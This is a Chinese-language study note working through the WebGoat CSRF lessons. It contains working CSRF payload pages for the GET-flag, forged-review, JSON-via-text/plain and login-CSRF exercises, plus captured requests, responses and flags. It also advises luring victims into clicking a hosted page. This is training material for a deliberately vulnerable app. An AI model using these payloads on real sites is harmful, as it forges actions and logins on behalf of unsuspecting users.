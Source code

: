 # WebGoat CSRF 学习笔记

参考如下博客文章，十分感谢：

* https://blog.csdn.net/elephantxiang/article/details/117827103



## 1. What is a Cross-site request forgery?



## 2. CSRF with a GET request



## 3. Basic Get CSRF Exercise

构造的 CSRF Payload 如下，直接将其文件拖到已经登录 WebGoat 的浏览器中，即可开始攻击！

```html
<!-- 3.html -->
<!DOCTYPE html>
<html>
<head>
    <title>3.Basic Get CSRF Exercise</title>
</head>
<body>
    <h1>3.Basic Get CSRF Exercise</h1>
    <form action="http://127.0.0.1:8081/WebGoat/csrf/basic-get-flag" method="POST">
        <input type="hidden" name="csrf" value="false">
        <input type="submit" name="submit">
    </form>
</body>
</html>
```

```
{
  "flag" : 13643,
  "success" : true,
  "message" : "Congratulations! Appears you made the request from a separate host."
}
```



## ❌ 4. Post a review on someone else’s behalf

> TODO on 25/01/15❕其实直接将其文件拖到已经登录 WebGoat 的浏览器中，页面会自动跳转到登陆页面，这可能就是跨域的限制吧！即如果不是原站点内的跨域请求，则直接使其跳转到登陆页等其它安全页面！！！

利用 BurpSuite 拦截一个正常评论后，前端发给后端的 POST 请求吧，如下所示，会发现其中携带 `Cookie: JSESSIONID=74FF4F8HyiPuVj7XihXAYcSVMqwueSRyWFP0NkKL`！

```api
POST /WebGoat/csrf/review HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 88
sec-ch-ua-platform: "Windows"
Accept-Language: zh-TW,zh;q=0.9
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:8080/WebGoat/start.mvc?username=hack2024
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=74FF4F8HyiPuVj7XihXAYcSVMqwueSRyWFP0NkKL
Connection: keep-alive

reviewText=2025+happy+new+year%60&stars=666&validateReq=2aa14227b9a13d0bede0388a7fba9aa9
```

```
HTTP/1.1 200 OK
Connection: keep-alive
Content-Type: application/json
Date: Wed, 15 Jan 2025 01:24:53 GMT
Content-Length: 211

{
  "lessonCompleted" : false,
  "feedback" : "It appears your request is coming from the same host you are submitting to.",
  "output" : null,
  "assignment" : "ForgedReviews",
  "attemptWasMade" : true
}
```

故可得提交评论需要 cooike！但因为跨域限制我们没办法获取 cookie，**只能将下述包含 CSRF Payload 的 HTML 文件上传至服务器，然后诱导用户主动点击，此番操作可以解决因跨域限制无法获取 cookie 的困境**！

```html
<!-- 4.html -->
<!DOCTYPE html>
<html>
<head>
    <title>4.Post a review on someone else’s behalf</title>
</head>
<body>
    <h1>4.Post a review on someone else’s behalf</h1>
    <form method="POST" action="http://localhost:8080/WebGoat/csrf/review">
        <input type="text" name="reviewText" placeholder="Add a Review">
        <input type="text" name="stars" placeholder="Add the star number">
        <input type="hidden" name="validateReq" value="2aa14227b9a13d0bede0388a7fba9aa9">
        <input type="submit" name="submit" value="Submit review">
    </form>
</body>
</html>
```

```
{
  "lessonCompleted" : true,
  "feedback" : "It appears you have submitted correctly from another site. Go reload and see if your post is there.",
  "output" : null,
  "assignment" : "ForgedReviews",
  "attemptWasMade" : true
}
```



## 5. Automatic support from frameworks & Custom headers not safe

### Automatic support from frameworks

### Custom headers not safe



## 6. **But I only have JSON APIs and no CORS enabled, how can those be susceptible to CSRF?**



## 7. Cross-Site Request Forgeries

构造的 CSRF Payload 如下，直接将其文件拖到已经登录 WebGoat 的浏览器中，即可开始攻击！


```html
<!-- 7.html -->
<form name="attack" enctype="text/plain" action="http://localhost:8080/WebGoat/csrf/feedback/message" METHOD="POST"> 
    <!-- 请求后，其构成的数据格式为: {name: "HackHuang", email: "hi#hackorg.com", subject: "service", message: "hello world="} -->
    <input type="hidden" name='{"name": "HackHuang", "email": "hi#hackorg.com", "subject": "service","message":"hello world', value='"}'>
</form> 

<script>document.attack.submit();</script>
```

```\
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations you have found the correct solution, the flag is: 8de86aba-f314-400c-9581-1fec08c23c83",
  "output" : null,
  "assignment" : "CSRFFeedback",
  "attemptWasMade" : true
}
```

**问题一：如何构造 json 数据格式 ？**

本关最大的易错点是我们刻意构造的 json 数据有误，如下所示，如果`<input>`标签中没有 value 属性，则请求发送的数据末尾还是会自动加上等号`=`，进而导致最终构造出的 json 数据格式有误，服务器端会因无法正常解析 json 数据而抛错！

```html
<!-- 请求后，其构成的数据格式为: {name: "HackHuang", email: "hi#hackorg.com", subject: "service", message: "hello world"}= -->
<input type="hidden" name='{"name": "HackHuang", "email": "hi#hackorg.com", "subject": "service","message":"hello world"}'>
```

```java
org.springframework.context.NoSuchMessageException: No message found under code 'com.fasterxml.jackson.core.JsonParseException: Unexpected character ('=' (code 61)): ......
```

**问题二：为什么使用`enctype="text/plain"` ？**

如果不使用，则请求发送的数据会被浏览器自动进行 URL 编码：

```html
<!-- 请求后，其构成的数据格式为: %7B%22name%22%3A+%22HackHuang%22%2C+%22email%22%3A+%22hi%23hackorg.com%22%2C+%22subject%22%3A+%22service%22%2C%22message%22%3A%22hello+world=%22%7D -->
<input type="hidden" name='{"name": "HackHuang", "email": "hi#hackorg.com", "subject": "service","message":"hello world', value='"}'>
```

知识扩展：**html中`enctype="text/plain"`的作用 ？**答案如下：

1. 数据编码方式：当设置为 `enctype="text/plain"` 时，表单数据会以**纯文本**的形式提交到服务器，而不是通常使用的 `application/x-www-form-urlencoded`（默认方式） 或 `multipart/form-data` （主要用于文件上传）编码
2. 提交数据的格式：
   * 表单字段名和值以简单的 `键=值` 格式表示
   * 每个字段占一行，字段名和值用等号 `=` 分隔，不进行 **URL 编码**
   * 多个字段之间用换行符分隔



## 8. Login CSRF attack

构造的 CSRF Payload 如下，诱导受害者访问该文件的链接后，即可让受害者成功登录 WebGoat 站点（使用的是黑客身份），这样受害者在站点的所有行为将会被记录，被黑客收集及分析 .

```html
<!-- 8.html -->
<form id="csrfForm" action="http://localhost:8080/WebGoat/login" method="POST">
    <input type="hidden" name="username" value="csrf-hack2024">
    <input type="hidden" name="password" value="password">
</form>
<script>
    // 自动提交表单
    document.getElementById('csrfForm').submit();
</script>
```



## 9. CSRF Impact & CSRF solutions

### Impact

### solutions

#### Same site cookie attribute

#### Other protections
